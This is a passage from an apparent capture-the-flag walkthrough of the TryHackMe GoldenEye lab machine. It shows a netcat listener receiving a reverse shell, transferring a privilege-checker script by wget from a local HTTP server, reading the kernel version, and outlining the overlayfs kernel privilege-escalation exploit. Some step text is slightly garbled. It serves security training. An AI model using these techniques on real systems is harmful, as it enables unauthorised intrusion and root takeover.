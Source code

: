 Now we have a reverse shell:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/GoldenEye/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.2.104] from (UNKNOWN) [10.10.102.223] 33986
bash: cannot set terminal process group (1059): Inappropriate ioctl for device
bash: no job control in this shell
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$
~~~

## [Task 4] Privilege Escalation

Now that you have enumerated enough to get an administrative moodle login and gain a reverse shell, its time to priv esc.

Download the linuxprivchecker to enumerate installed development tools.

To get the file onto the machine, you will need to wget your local machine as the VM will not be able to wget files on the internet. Follow the steps to get a file onto your VM:

* Download the linuxprivchecker file locally
* Navigate to the file on your file system
* Do: python -m SimpleHTTPServer 1337 (leave this running)
* On the VM you can now do: wget < your IP >/< file >.py

OR

Enumerate the machine manually.

### 4.2 - Whats the kernel version?

Run `uname -a` and you'll get the kernel info:

~~~
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
~~~

Kernel version: `3.13.0-32-generic`

### 4.3

This machine is vulnerable to the overlayfs exploit. The exploitation is technically very simple:

* Create new user and mount namespace using clone with CLONE_NEWUSER|CLONE_NEWN* flags.
* Mount an overlayfs using /bin as lower filesystem, some temporary directories a* upper and work directory.
* Overlayfs mount would only be visible within user namespace, so let namespac* process change CWD to overlayfs, thus making the overlayfs also visible outsid* the namespace via the proc filesystem.
* Make su on overlayfs world writable without changing the owner
* Let process outside user namespace write arbitrary content to the file applying * slightly modified variant of the SetgidDirectoryPrivilegeEscalation exploit.
* Execute the modified su binary
